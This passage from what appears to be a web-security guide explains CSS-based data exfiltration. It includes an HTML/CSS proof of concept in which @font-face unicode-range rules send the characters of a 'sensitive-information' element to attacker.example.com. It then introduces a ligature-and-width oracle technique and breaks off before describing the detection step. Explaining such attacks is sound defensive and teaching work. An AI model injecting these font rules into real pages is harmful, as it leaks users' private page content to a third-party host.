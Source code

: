 ### @font-face / unicode-range <a href="#text-node-exfiltration-i-ligatures" id="text-node-exfiltration-i-ligatures"></a>

You can specify **external fonts for specific unicode values** that will only be **gathered if those unicode values are present** in the page. For example:

```html
<style>
@font-face{
    font-family:poc;
    src: url(http://attacker.example.com/?A); /* fetched */
    unicode-range:U+0041;
}
@font-face{
    font-family:poc;
    src: url(http://attacker.example.com/?B); /* fetched too */
    unicode-range:U+0042;
}
@font-face{
    font-family:poc;
    src: url(http://attacker.example.com/?C); /* not fetched */
    unicode-range:U+0043;
}
#sensitive-information{
    font-family:poc;
}
</style>

<p id="sensitive-information">AB</p>htm
```

When you access this page, Chrome and Firefox fetch "?A" and "?B" because text node of sensitive-information contains "A" and "B" characters. But Chrome and Firefox do not fetch "?C" because it does not contain "C". This means that we have been able to read "A" and "B".

### Text node exfiltration (I): ligatures <a href="#text-node-exfiltration-i-ligatures" id="text-node-exfiltration-i-ligatures"></a>

**Reference:** [Wykradanie danych w świetnym stylu – czyli jak wykorzystać CSS-y do ataków na webaplikację](https://sekurak.pl/wykradanie-danych-w-swietnym-stylu-czyli-jak-wykorzystac-css-y-do-atakow-na-webaplikacje/)

We can extract the text contained in a node with a technique that combines **font ligatures** and the **detection of width changes**. The main idea behind this technique is the creation of fonts that contains a predefined ligature with **high size** and the usage of **size changes as oracle**.

The fonts can be created as SVG fonts and then converted to woff with fontforge. In SVG we can define the width of a glyph via **horiz-adv-x** attribute, so we can build something like `<glyph unicode="XY" horiz-adv-x="8000" d="M1 0z"/>`, being **XY a sequence of two chars**. **If the sequence exists, it will be rendered and the size of the text will change**. But… how can we detect these changes?
